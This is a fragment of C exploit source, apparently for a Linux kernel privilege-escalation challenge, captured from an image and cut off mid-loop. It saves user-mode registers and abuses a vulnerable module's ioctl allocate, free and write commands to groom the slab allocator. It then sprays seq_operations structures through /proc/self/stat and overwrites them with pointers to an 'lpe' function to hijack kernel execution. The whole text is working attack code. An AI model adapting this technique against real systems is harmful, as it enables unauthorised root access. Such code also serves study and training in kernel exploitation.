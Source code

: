```c
        "pushfq\n"
        "popq %3\n"
        : "=r"(cs), "=r"(ss), "=r"(rsp), "=r"(rflags)
        :
        : "memory");
}

int main(void) {
    int victim = open(MODULE_NAME, O_RDWR);
    if (victim < 0) {
        error("[-] open %s failed", MODULE_NAME);
        exit(1);
    }
    info("victim fd: %d", victim);

    request_t req = {.id = 0, .size = 0x0, .data = NULL};
    info("spray1. cpu_partial slab");
    for (int i = 0;i < ops512*(cp512+1);i++) {
        req.id = i;
        ioctl(victim,CMD_ALLOC, &req);
    }
    req.id = ops512*(cp512+1);
    ioctl(victim,CMD_ALLOC, &req);

    info("free");
    for (int i = 0;i < ops512*(cp512+1);i+=ops512) {
        if  (i % (ops512*2) == 0) {
            for (int j = 0;j < ops512;j++) {
                req.id = i+j;
                ioctl(victim,CMD_FREE, &req);
            }
        } else {
            req.id = i;
            ioctl(victim,CMD_FREE, &req);
        }
    }

    info("spray seq_operations");
    int seqs[SPRAY] = {0};
    for (int i = 0;i < SPRAY;i++) {
        seqs[i] = open("/proc/self/stat", O_RDONLY);
    }

    char payload[0x20] = {0};
    unsigned long *p = (unsigned long *)payload;
    *p++ = (unsigned long)lpe;
    *p++ = (unsigned long)lpe;
    *p++ = (unsigned long)lpe;
    *p++ = (unsigned long)lpe;

    req.data = payload;
    req.size = sizeof(payload);
    info("injecting seq_operations");
    for (int i = 0;i < ops512*(cp512+1);i+=ops512) {
        if  (i % (ops512*2) == 0) {
            req.id = i;
            ioctl(victim,CMD_WRITE, &req);
        }
    }

    info("trying to get rip");
    for (int i = 0;i < SPRAY;i++) {
        refuge();        
```